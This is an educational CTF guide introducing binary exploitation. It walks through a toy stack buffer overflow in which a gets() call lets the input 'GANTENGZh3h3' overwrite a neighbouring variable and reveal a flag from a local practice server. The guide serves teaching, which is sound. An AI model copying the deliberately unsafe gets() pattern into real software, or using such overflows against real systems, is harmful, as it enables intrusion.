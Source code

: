 # Binary Exploitation / Pwn
Binary Exploitation of *Pwn* are problems on which the contestants are challenged to *hack* a program. One main thing to notice is that in this type of problems, the contestants are  given a connection to the remote challenge server, so **the flag is not on the program itself** but somewhere in the remote server. The usual way of solving binary exploitation problems is to hack and debug the program on your local machine first (may involve writing a fake flag), writing a script to do the same thing to the remote server, then executing the script. Pwn problems are mostly binary (ELF/Compiled C) program exploitation. Typical vulnerabilities in these programs include buffer overflow, format string attack, integer overflow, heap exploitation and more.

## Tools
The tools you might need to solve Pwn problems:
- Debugger ([gdb](http://www.gdbtutorial.com/tutorial/how-install-gdb), [gdb-peda](https://github.com/longld/peda)) - to RE compiled programs.
- Disassembler ([IDA](https://www.hex-rays.com/products/ida/), [Ghidra](https://ghidra-sre.org/), etc.) - to RE compiled programs.
- Scripting tool ([pwntools](https://github.com/Gallopsled/pwntools)) - to automate input to the program.
- etc.

## Example Problem
You can find the file [here](./example/README.md).

Follow the instruction to setup the remote server.

Notice that in the **real** CTF, the contestants are only given the [binary](./chall/bof0) and the connection to the remote server. This binary program is the exact same program running on the server.

*If you want to run the challenge with docker you may need to install [docker](https://www.docker.com/) and [docker-compose](https://docs.docker.com/compose/install/) on your machine.*


## How to Solve
### Observation

First off, try connecting to the *remote* server:
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
*You can close the connection with **Ctrl-C***

Try the program locally:
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
The program asks for an input, if our input changes the local variable from `'stif'` to `'h3h3'`, we get the flag.

To understand the program better, let's open it up in IDA (or gdb if you are hardcore).

Launch IDA, load the program, and disassemble the main function (F5).
```
  ...
  setbuf(_bss_start, 0LL);
  puts("hi! change the string variable to h3h3 and you'll get your flag!");
  vuln();
  exit(0);
}
```

Seems that the main function calls the `vuln()` function, let's disassemble that function.
```
  ...
  char v1; // [rsp+8h] [rbp-18h]
  char s1[8]; // [rsp+10h] [rbp-10h]  <- allocation
  ...

  ...
  *(_QWORD *)s1 = 0x66697473LL;       <- s1 = 'stif' (or 0x66697473LL in hex)
  printf("your input: ");
  gets(&v1);                          <- our input!!!
  printf("string is: %s\n", s1);
  if ( !strcmp(s1, "h3h3") )          <- compare s1 to h3h3
  {
    puts("congrats! here's your flag");
    readFlag();                       <- this function reads the flag
  }
  ...
}
```

From that disassembled code, we know that the program asks for our input **USING `gets()`**, store it in `v1`, and then compares `s1` (which is not our input) to `'h3h3'`.

At first this may seem impossible, how can we change a pre-initialized variable given our control to another variable. The key is on how the program asks for our input, using `gets()`. The function `gets()` is an unsafe function that **DOESN'T LIMIT THE CHARACTER ENTERED**, this means that we can bypass the initially allocated space for our input. You can see how `v1` and `s1` are allocated on the header of the disassembled function in IDA.

Here is an illustration on how the variables `v1` and `s1` are allocated (in reference to `rbp`). Keep in mind that in C, 1 character = 1 byte.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
|   |   |   |   |   |   |   |   | s | t | i | f |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```

So, to change `s1` to `'h3h3'`, we need to input any 8 characters (from rbp-0x18 to rbp-0x11) plus `'h3h3'` itself. The following illustration pictures the input `'GANTENGZh3h3'`.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| G | A | N | T | E | N | G | Z | h | 3 | h | 3 |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```

Now try inputing the payload to the program locally.
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
Segmentation fault (core dumped)
```

You will not get the flag this way because the program is being run locally in your machine, hence the `SEGFAULT`.
Try connecting to the server and input the payload.
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
CTFGUIDE{3z_b0o00ooo0ff}
```

---

## External Resources
*TBD*
